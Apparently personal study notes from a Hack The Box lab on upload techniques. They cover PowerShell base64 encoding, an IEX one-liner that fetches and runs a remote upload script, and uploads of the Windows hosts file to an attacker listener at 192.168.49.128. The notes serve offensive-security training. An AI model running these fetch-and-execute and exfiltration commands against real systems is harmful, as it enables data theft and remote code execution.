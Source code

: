 ## <mark class="hltr-cyan">Upload Operations</mark>
### <mark class="hltr-orange">PowerShell Base64 Encode & Decode</mark>

- Encoding
```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "<path>" -Encoding byte))
```

- Decoding
```shell-session
echo "<base64>" | base64 -d > hosts
```

We can then compare the md5 checksums

### <mark class="hltr-orange">Powershell Web Uploads</mark>

We have to start the upload server first on the attacker machine

```
uploadserver
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### <mark class="hltr-orange">Powershell Base64 Web Uploads</mark>

We run a listener
```shell-session
nc -lvnp 8000
```

Then we send the file over the network
```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path '<path>' -Encoding Byte))

PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Then we decode the string

### <mark class="hltr-orange">FTP Uploads</mark>
